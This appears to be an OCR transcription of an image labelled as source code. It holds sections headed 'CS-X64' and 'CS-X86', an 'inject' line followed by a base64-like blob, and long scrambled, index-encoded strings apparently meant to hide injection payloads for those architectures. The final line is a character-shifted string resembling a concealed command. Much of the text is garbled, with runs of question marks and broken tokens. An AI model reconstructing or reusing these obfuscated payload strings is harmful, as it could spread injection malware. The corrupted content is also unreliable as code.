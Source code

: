 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv


adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson
